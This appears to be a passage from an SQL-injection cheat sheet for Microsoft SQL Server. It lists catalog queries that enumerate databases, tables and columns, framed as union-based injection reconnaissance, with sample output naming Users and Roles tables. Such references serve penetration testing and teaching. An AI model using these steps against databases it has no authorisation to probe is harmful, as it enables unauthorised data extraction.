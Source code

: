 ### MSSQL List Tables

```sql
-- use xtype = 'V' for views
SELECT name FROM master..sysobjects WHERE xtype = 'U';
SELECT name FROM <DBNAME>..sysobjects WHERE xtype='U'
SELECT name FROM someotherdb..sysobjects WHERE xtype = 'U';

-- list column names and types for master..sometable
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='sometable';

SELECT table_catalog, table_name FROM information_schema.columns
SELECT table_name FROM information_schema.tables WHERE table_catalog='<DBNAME>'

-- Change delimiter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)
SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U';
```


### MSSQL List Columns

```sql
-- for the current DB only
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');

-- list column names and types for master..sometable
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='sometable'; 

SELECT table_catalog, column_name FROM information_schema.columns

SELECT COL_NAME(OBJECT_ID('<DBNAME>.<TABLE_NAME>'), <INDEX>)
```


## MSSQL Union Based

* Extract databases names

    ```sql
    $ SELECT name FROM master..sysdatabases
    [*] Injection
    [*] msdb
    [*] tempdb
    ```

* Extract tables from Injection database

    ```sql
    $ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
    [*] Profiles
    [*] Roles
    [*] Users
    ```
